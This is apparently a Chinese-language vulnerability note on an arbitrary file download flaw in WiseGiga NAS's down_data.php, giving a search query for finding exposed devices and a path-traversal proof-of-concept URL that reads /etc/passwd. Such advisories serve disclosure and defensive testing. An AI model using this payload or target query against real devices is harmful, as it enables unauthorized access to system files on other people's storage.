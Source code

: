 # WiseGiga NAS down_data.php 任意文件下载漏洞

# WiseGiga NAS down_data.php 任意文件下载漏洞

## 漏洞描述

WiseGiga 是一家销售网络连接存储（NAS ）产品的韩国公司。

WISEGIGA NAS down_data.php 存在任意文件下载漏洞，由于 /down_data.php 页面 filename 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

```
WiseGiga NAS
```

## 网络测绘

```
app="WISEGIGA-NAS"
```

## 漏洞复现

主页面

![image-20220628113649787](/images/202206281136917.png)

验证POC

```
/down_data.php?filename=../../../../../../../../../../../../../../etc/passwd
```

![image-20220628113749412](/images/202206281137504.png)


